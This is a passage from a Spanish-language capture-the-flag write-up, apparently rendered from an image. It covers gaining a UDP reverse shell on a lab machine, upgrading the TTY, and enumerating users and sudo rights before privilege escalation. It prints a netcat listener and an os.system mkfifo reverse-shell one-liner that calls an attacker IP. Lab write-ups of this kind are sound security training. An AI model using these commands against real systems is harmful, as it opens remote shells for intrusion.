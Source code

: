 ### Reverse shell por UDP {-}

1. En la maquina de atacante con el parametro 
```bash
 -u 
```


    ```bash
    nc -u -nlvp 443
    ```

1.en la consola interactiva

    ```python
    os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.20 443 >/tmp/f")
    ```

Y ya esta...

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Investigamos la maquina {-}

```bash
whoami

#Output
werkzeug

cd /home/alekos
cat user.txt
```

No podemos leer la flag. Quiere decir que vamos a tener que convertirnos en el usuario alekos.

```bash
id
sudo -l
```

El comando 
```bash
 sudo -l 
```
 nos dice que podemos ejecutar 
```bash
 sudoedit /var/www/*/*/layout.html 
```
 como el usuario alekos. ## Escalada de privilegios {-}
